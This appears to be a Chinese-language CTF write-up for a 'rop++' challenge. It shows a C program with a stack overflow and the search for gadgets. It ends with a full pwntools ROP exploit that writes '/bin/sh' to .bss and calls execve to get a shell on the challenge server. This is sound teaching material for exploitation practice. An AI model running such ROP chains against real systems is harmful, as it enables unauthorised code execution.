








# rop++
先看題目的程式碼:  
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char buf[0x10];
    const char *msg = "show me rop\n> ";

    write(1, msg, strlen(msg));
    read(0, buf, 0x200);
    
    return 0;
}
```
程式碼很短，他只做了一個明顯的buffer overflow。  
Makefile中的編譯選項爲:  
`gcc -fno-stack-protector -static -o chal rop++.c`  
也就是把canary關掉了，然後是static編譯，因此應該有很多rop gadget可以用。

## thought
因爲題目沒什麼限制，因此想要使用syscall來取得shell。  
要做到這點可以先找找有沒有/bin/sh字串，如果沒有再想辦法放進程式裡。  

## discovery
在程式中沒有找到/bin/sh字串，因此需要在payload中把/bin/sh寫入。  
要寫入可以找使用read syscall來吃資料，但"/bin/sh"加上NUL byte剛好8個byte，    
所以也可以找一個mov指令，然後將這個64bit的值寫入。  
只要能把字串寫入bss段，就可以在執行的時候讀到字串了。  

## readelf
使用readelf指令來找bss的address:  
  

## find ROP
要做syscall，因此先找rax的gadget  
  
然後syscall:  
  

接著execve需要設定rdi, rsi, rdx，因此來找這幾個的gadget:  

- rdi  
  

- rsi  
  

- rdx  
  
`pop rdx ; ret`的找不到，因此放寬條件搜索  
用`pop rax ; pop rdx ; pop rbx ; ret`來代替。  

接著找mov的指令:  
  
這邊選了`mov qword ptr [rsi], rax ; ret`，因爲rsi跟rax前面都有了。  

## Solve
```py
import pwn

pwn.context.arch = "amd64"

bss_addr = 0x4c72a0     # .bss address
mov_rsi_rax = 0x449fa5  # mov qword ptr [rsi], rax ; ret
pop_rax = 0x447b27      # pop rax ; ret
pop_rsi = 0x409e6e      # pop rsi ; ret

pop_rdi = 0x401e3f                  # pop rdi ; ret
pop_rax_pop_rdx_pop_rbx = 0x47ed0a  # pop rax ; pop rdx ; pop rbx ; ret
syscall = 0x401bf4                  # syscall

payload = pwn.flat(
    b"A" * 40,

    # copy '/bin/sh' to .bss
    pop_rax, b"/bin/sh\0",  # rax <- '/bin/sh\0'
    pop_rsi, bss_addr,  # rsi <- 0x4c72a0
    mov_rsi_rax,  # [0x4c72a0] <- '/bin/sh\0'

    # execve syscall
    pop_rdi, bss_addr,
    pop_rsi, 0,
    pop_rax_pop_rdx_pop_rbx, 0x3b, 0, 0,
    syscall,
)

r = pwn.remote("edu-ctf.zoolab.org", 10003)
r.recvuntil(b"show me rop\n> ")

r.sendline(payload)
r.interactive()
```

